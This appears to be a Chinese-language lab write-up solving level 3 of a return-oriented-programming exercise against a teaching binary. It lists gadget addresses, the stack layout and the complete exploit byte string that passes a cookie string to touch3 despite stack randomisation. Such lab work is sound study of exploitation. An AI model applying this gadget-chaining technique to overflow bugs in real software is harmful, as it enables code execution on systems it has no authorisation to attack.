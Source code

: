 ## ROP-Level3

使用gadget完成level3。

我们要想办法将字符串地址传入rdi中。但是在rtarget中，栈地址随机化。所以我们无法想之前那样直接传入栈地址。那么我们需要取得rsp的值。并可以对它做计算

```assembly
0x0000000000401a06 : mov rax, rsp ; ret
0x00000000004019a2 : mov rdi, rax ; ret
0x00000000004019ab : pop rax ; nop ; ret
0x00000000004019d6 : lea rax, [rdi + rsi] ; ret
0x0000000000401a13 : mov esi, ecx ; nop ; nop ; ret
0x0000000000401a69 : mov ecx, edx ; or bl, bl ; ret
0x00000000004019dd : mov edx, eax ; nop ; ret
```

`mov rax, rsp ; ret; mov rdi, rax ; ret`，取得rsp,并将其存入rdi。

`pop rax ; nop ; ret`控制rax的值。

`mov edx, eax ; nop ; ret ; mov ecx, edx ; or bl, bl ; ret ; mov esi, ecx ; nop ; nop ; ret`，控制了rsi的值。

`lea rax, [rdi + rsi] ; ret ; mov rdi, rax ; ret`，将rdi中的值加上rsi中的偏移，又放入rdi。

```text
|padding			|
|0x0000000000401a06	|
|0x00000000004019a2	|
|0x00000000004019ab	|
|offset				|
|0x00000000004019dd	|
|0x0000000000401a69	|
|0x0000000000401a13	|
|0x00000000004019d6	|
|0x00000000004019a2	|
|touch3				|
|cookie				|
```

```text
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
06 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
ab 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00 
69 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
```
